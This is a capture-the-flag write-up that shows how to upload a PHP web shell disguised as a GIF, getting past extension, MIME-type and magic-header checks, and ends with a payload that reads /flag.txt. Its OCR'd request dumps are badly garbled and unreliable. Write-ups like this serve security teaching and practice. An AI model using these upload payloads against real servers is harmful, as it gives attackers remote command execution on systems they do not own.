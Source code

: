 # gif
> I made a secure php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## About the Challenge
We were given a plain website that has the functionality to upload a GIF file.


[Image extracted text: 213.133.103.186.5102/
213.133.103.186.5102
Getting Started
#519502 Name Link B.
#927384 Race Conditi__
#502
Upload a GIF
Filename:
Browse ._
No file selected:
Upload]


## How to Solve?
The first thing I want to test is `Unrestricted File Upload` vulnerability where we can upload malicious file such as PHP file


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[upload-php
HTTP/1.1
HTTP/1-1
200
OK
Host
213
133.
103
186 : 5102
Date:
Sun ,
Lpr
2023
16:31:00
GIT
User-Agent
Hozilla/5
(Vindous
IT
10
Vin64;
{64;
rv:109
Gecko/:O1OO101
Server:
Apache / 2
4 .54
(Debian)
Fire
111
X-Povered-By:
PHP / 8
Accept
Vary: Accept
Encoding
ext /htul
applicat
on / xhcultxul
application/xnl
4F-0
9 , image/ avif ,inage /vebp ,* /*;4F-0
Content
Length:
110
Aecept -
aguage
en-US
en;4-0
Connect
on :
close
Accept
Encoding:
gzip
deflace
Content
Type:
texc
/htnl ;
charset-UTF-8
Content-
Type
nultipart / forn-data;
boundary
--1-7594093716841650474122803430
<htnl>
Content
Lengch:
482
11
<hody>
Origin:
http: / /213.
133
103 ,
186: 5102
<h3>
Connect
on :
close
File
Upload
Stacs:
Referer:
http
1/213
133
103
186: 5102/
<fh3z
12 Upgrade
Ins
cure-Requests:
Please upload
GIF
file
</body>
127594093716841650474122803430
/heml>
Content-Disposit
on:
forn-daca;
I- =
name
cest
php
127594093716841650474122803430
Content
Disposition:
form-
data;
nane
file
filename
test
php
20 Cont
Type
applicat
on /php
<?php
system
1s)
127594093716841650474122803430
24 Content-Disposition:
form-
daca;
an =
subnit
Upload
127594093716841650474122803430-
fox
enc]


At first I tried to upload a PHP file but the server wants us to upload GIF file. So I tried to change the extension file and the MIME type


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[upload php HTTP/1.1
HTTP / 1
200
OF
Host
213
133
103
186: 5102
Date:
Sun ,
Apr
2023
16:32:17
GHT
User-Agent
Hozilla/ 5
(Vindous
IT
10.0;
Vin64;
{64;
17:109
Geclo/:O100101
Server:
Apache/ 2
(Debial
Firefor/1ll
X-Povered-By:
PHP / 8
Aecept
Vary:
Aecept
Encoding
cext / html
application/ xhchltxnl , applicat
on/ <ul
F0
image / avif
1nage /vebp
1*{9=0
Content
engch:
110
Accept-Language
en-US
en;
Connect
on =
close
Lecept-Encoding:
gzip ,
deflace
Content
Type
text /htul
charset-UTF-8
Content-Type
nultipart
form-
daca;
boudary=
-127594093716841650474122803430
<hcnl
Content-
Lengch:
476
<body>
Origin:
http
1/213
133
103_
186: 5103
<h3>
Connect
on:
close
File
Upload Stacs:
Re ferer: http
1/213
133
103.186
5102/
<fh3z
Upgrade
Ins
cue-
Requests:
Please upload
GIF
fil-
</bodyz
127594093716841650474122803430
/henl>
Content
osit
on:
form-daca;
nae
name
cest -php
127594093716841650474122803430
Content
osition:
form
data;
nae
file-
filename
est
gif
Content-
Type
1mage
Jif
4?php systen
15)
127594093716841650474122803430
Content-Disposit
on:
form-
data;
nae
stbnit
Upload
127594093716841650474122803430-
Seorch;
matches
Seorcn;
matches
4-0
Disp
Dispe]


The server still rejects our request. Now, I am trying to add the GIF magic header. (You can check another file's magic header [here](https://en.wikipedia.org/wiki/List_of_file_signatures))


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[upload-php
HTTP /1.1
HTTP/1-1
200
OK
Host
213
133.
103
186- 5103
Date:
Sun ,
Lpr
2023 16;34:46
GIIT
User-Agent
Hozilla/5
(Vindous
IT   10
Vin64;
*64;
rv:109
Gecko/:O1OO101
Server
Apache/ 2
4 .54
(Debian)
Fire
(111
X-Povered-By:
PHP / 8 - _
Accept
Vary: Accept
Encoding
ext /htul
applicat
on / xhcultxul
application/xnl
4F-0
9 , image/ avif,inage/vebp ,* /*;4-0
Content
Length:
109
Aecept -
aguage
en-US
en;[-0_
Connect
on :
close
Accept
Encoding:
gzip
deflace
Content
Type
texc
/htnl;
charset-UTF-8
Content-
Type
hultipart
form-data;
boundary
--1-7594093716841650474122803430
<htnl>
Content
Lengch:
484
<hody>
Origin: http: / /213
133
103 ,
186 : 5102
<h3>
Connect
on :
close
File
Upload
Stacs:
Referer:
http
1/-13.133
103.186: 5102/
<fh3z
ade
Ins
cure-Requests:
File
has
been
up loadedi
~(body>
127594093716841650474122803430
/heml>
Content-Disp
sition:
form-
data;
I- =
name
cest
php
127594093716841650474122803430
Content
Disposition:
form-
data;
nane
file
filenane
test
Gi f"
20 Content-Type
image
GIF89A ;
K?php
system
1s )
127594093716841650474122803430
24 Content-Disposition:
form-daca;
an =
subnit
Upload
127594093716841650474122803430-
Seorcni
matches
Seorcne
matches
fox
Upgr =]


Yay success, now access the uploaded file on `uploads` endpoint. To obtain the flag, try to upload below code into the server

```php
GIF89A; <?php system("cat /flag.txt"); ?>
```


[Image extracted text: 7
view-source:http://213.133.103.186.5102/uploads/testphp
Getting Started
#519502 Name Link B _
#927384 Race Conditi_.
#502758 RCE and Co_
Exploit Database
GIF89A;
bucket{1_h4t3_PHP}]


```
bucket{1_h4t3_PHP}
```